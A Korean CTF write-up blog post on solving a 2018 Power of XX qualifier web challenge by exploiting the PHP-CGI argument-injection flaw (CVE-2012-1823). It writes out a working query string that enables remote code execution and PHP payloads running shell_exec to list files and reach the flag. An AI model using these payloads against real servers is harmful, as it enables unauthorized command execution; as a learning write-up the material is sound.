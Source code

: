 ```yaml
---
layout: post
title: ! "[CTF] 2018 POXX 예선 MyFirstServerInfo write up"
categories: [CTF]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - CTF
  - POXX
  - write-up
---
```


2018년도 Power of XX 의 예선에 참가했습니다. 작년엔 본선에 진출했으나 올해는 아쉽게도 예선만 참가하게 됐네요 :(
이 문제는 저에게 의미있는 문제가 될 것 같아요. 왜냐하면 공식적인 대회에서 플래그를 찾아낸 첫번째 문제거든요!
문제 이름에도 First가 들어가고..ㅎㅎ 앞으로 플래그를 보는게 익숙해졌으면 좋겠네요

![](/assets/posts/ctf/POXX2018/phpinfo.png)

문제 페이지에 들어가면 `phpinfo`가 보인다.
지금까지 phpinfo 관련 문제들은 꽤 봐왔으나, 그때마다 이걸 보고 뭘 알아낼 수 있지? 어떻게 공격하지? 라는 생각만 들었다.
그래도 이번엔 열심히 취약점을 찾아봐야겠다는 생각으로 자세히 보니 cgi 라는게 많이 보였다.
cgi를 처음 알게 된건 이번 학기 네트워크 수업 실습때였는데, cgi를 사용하여 python과 html을 같이 쓰는거였다.

`cgi`란 공용 게이트웨이 인터페이스(Common Gateway interface)의 약자로 웹 서버 상에서 사용자 프로그램을 동작시키기 위한 조합이다.

그래서 cgi 취약점에 대해 찾아보다가 PHP-CGI(CVE-2012-1823) 취약점에 대해 포스팅한 글을 보게되었다.
[참고](https://m.blog.naver.com/PostView.nhn?blogId=heapskewl73&logNo=221130879514&proxyReferer=https%3A%2F%2Fwww.google.co.kr%2F)


취약점 요약: 2012년 1월 PHP 5.4.2 이전 버전에서 원격 코드 실행이 가능한 취약점이 발견됐다. 이 취약점은 sapi/cgi/cgi_main.c 파일 내의 CGI 스크립트(php-cgi)가 -s,-d,-c 등의 매개 변수를 적절히 검증하지 않아 발생한다.

1. 취약점 대상
![](/assets/posts/ctf/POXX2018/php-table1.png)

2. 취약점 공격(php-cgi 주요 옵션)
![](/assets/posts/ctf/POXX2018/php-table2.png)

3. 취약점 공격(php.ini 주요 설정)
![](/assets/posts/ctf/POXX2018/php-table3.png)

위 옵션들을 바탕으로 문제 페이지에 넘겨보면

![](/assets/posts/ctf/POXX2018/php-s.png)

-s 옵션의 경우 색깔은 안입혀지지만 소스코드가 보이는 것을 확인할 수 있다.

![](/assets/posts/ctf/POXX2018/php-burp-id.png)
-d 과 allow_url_include=1, auto_prepend_file=php://input 을 사용해 시스템 함수를 사용할 수 있다.
`?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input`
`<?php $contents = shell_exec("id"); echo "$contents"; die;`

![](/assets/posts/ctf/POXX2018/php-id.png)

이 결과를 이용해 ls를 하면 파일 리스트가 뜨지 않을까 싶었다.

![](/assets/posts/ctf/POXX2018/php-burp-ls.png)

`<?php $contents = shell_exec("ls"); echo "$contents"; die;`

![](/assets/posts/ctf/POXX2018/php-ls.png)

index.php 파일과 알파벳+숫자로 이루어진 텍스트 파일이 있는 것을 확인할 수 있다.
다행히 바로 저 파일에 접근할 수 있었다.

![](/assets/posts/ctf/POXX2018/php-flag.png)

플래그 :)
